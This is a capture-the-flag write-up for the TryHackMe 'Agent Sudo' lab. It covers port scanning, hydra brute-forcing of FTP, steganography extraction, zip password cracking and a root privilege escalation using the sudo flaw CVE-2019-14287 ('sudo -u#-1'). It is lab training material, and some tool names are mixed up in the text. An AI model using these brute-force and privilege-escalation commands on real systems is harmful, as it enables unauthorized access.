 # Agent Sudo - WriteUp
## https://tryhackme.com/room/agentsudoctf

+ **We start with a nmap scan (TCP-SYN) for open ports (no host discovery or dns resolution).**
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.33.214 -oG allPorts``

+ **We see that FTP, SSH and HTTP are open.**

    ![1]
    
+ **With the help of whatweb, we try to enumerate for any CMS or software the web server is running.**

    Nothing relevant appears.

    ![2]
    
+ **We enumerate in nmap (with basic enum scripts) for versions in the services.**

    ``nmap -sC -sV -p21,22,80 10.10.33.214 -oN targeted``

    ![3]
    
    We see that the FTP software, vsftpd, is running version 3.0.3.
    
+ **We try to look for an exploit in exploitdb.**
    
    Nothing appears, so it´s not a vulnerable version.
    
    ![4]
    
+ **We try to login with anonymous user in the FTP service, but it didn't work.**

    ![5]
    
+ **Let's see the webpage. It tells that we must try to access with our codename as User-Agent.**

    ![6]
    
    TryHackMe gives us the hint to try the codename "C". To change the User-Agent, we use **curl**.
    
+ **Let's see the response of the webserver with curl, and the changed User-Agent.**

    We use the flag -L to apply a redirection in the page (for the change in the User-Agent).

    ``curl "http://10.10.33.214" -H "User-Agent: C" -L``
    
    ![7]
    
    From this, we know that the pass for the user **chris** is weak (also that Agent C is chris). Let's crack it.
    
+ **Let's use **john** to brute-force the password for the FTP service, with the user chris.**

    ``hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.33.214 -t 10 -v``
    
    ![8]
    
    John detects the password, so let's login with the new credentials.
    
+ **Login with the FTP credentials and list all the content.**
    
    ![9]
    
    We see three files, two images and a txt file. Lest download all of them to our current directory.
    
    ``mget *``
    
+ **If we open the txt file, we see the next message.**

    ![10]
    
    From this, we know that the images contain hidden data (steganography). Also, we get a new user (J) and the hint to his SSH password.
    
+ **Let's use binwalk to see any hidden file in the images.**

    ![11]
    
    We see that the image **cutie.png** contains a ZIP file inside. Let's extract it.
    
    ``binwalk -e cutie.png``
    
    ![12]
    
    The extracted **ZIP** has password, so we need to crack it first.
    
+ **We are going to use zip2john to get the hash first**

    ``zip2john 8702.zip > zip_hash``
    
+ **Now, let's use john to brute-force the hash obtained in the previous step**

    ``john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash | tee zip_pass``
    
    We transfer the output to a file to save all the results (**tee**).
    
    ![13]
    
    We obtain the ZIP file key.
    
+ **If we extract the file (I recommend to use 7z, because unzip doesn't recognize the password to extract), we obtain a new txt file.**

    ![14]
    
    We get a new message, which says:
    
    ```
    Agent C,
    
    We need to send the picture to 'XXXX' as soon as possible!
    
    By,
    Agent R
    ```
    
    This "location" is in base64, so we decode it.
    
    ``echo "XXXX" | base64 -d``
    
    ![15]
    
+ **We have finished with the png file, so now let's work with the jpg file. Let's see if there's something hidden with steghide**

    ``steghide extract -sf cute-alien.png``
    
    It asks us for a password, so we introduce the last word we get (in the previous step, after decode it).
    
    We see that it extracts a hidden message to a txt file, so we open it.
    
    ![16]
    
    It gives us an user (james) and his SSH password.
    
+ **We login to SSH with the new credentials.**

    ``ssh james@10.10.33.214``

    Now, we have access to the machine.
    
    ![17]
    
    We can see the user flag using ls in the current directory.
    
+ **Now, let's do the privesc. We can use LinPeas, uploading the script to the system with scp (because we already know the SSH password)**

    ``scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh james@10.10.33.214:/dev/shm``
    
    ![18]
    
    But let's do some manual enum. First, let's see for sudo permissions:
    
    ``sudo -l``
    
    We get the next permissions:
    
    ```
    User james may run the following commands on agent-sudo:
         (ALL, !root) /bin/bash
    ```
    
    Seeing this, we remember a CVE released in 2019 about a vulnerability on the command sudo. This is the CVE-2019-14287.
    
    ![19]
    
    To bypass the restriction established in the **suddoers** file, we need to execute the next command:
    
    ``sudo -u#-1 /bin/bash``
    
    To learn more about this vulnerability, you can access to this [site](https://www.exploit-db.com/exploits/47502)
    
+ **When we execute the command, it asks us for the james password; we introduce it and receive a root bash.**

    We can see it in the name of the prompt and with the command whoami.
    
    ![20]
    
    Now, we can go to the root directory, and get the root flag.
    
    ![21]
    
+ **BONUS: The machine also request to get the "name of the incident" of the image in the user james directory.**

    It's all about an OSINT task. We only need to use the reverse search of Google with the image, and filtrate the results by "Foxnews".
    
[1]:./images/1.png
[2]:./images/2.png
[3]:./images/3.png
[4]:./images/4.png
[5]:./images/5.png
[6]:./images/6.png
[7]:./images/7.png
[8]:./images/8.png
[9]:./images/9.png
[10]:./images/10.png
[11]:./images/11.png
[12]:./images/12.png
[13]:./images/13.png
[14]:./images/14.png
[15]:./images/15-1.png
[16]:./images/16.png
[17]:./images/17.png
[18]:./images/18.png
[19]:./images/19.png
[20]:./images/20.png
[21]:./images/21.png
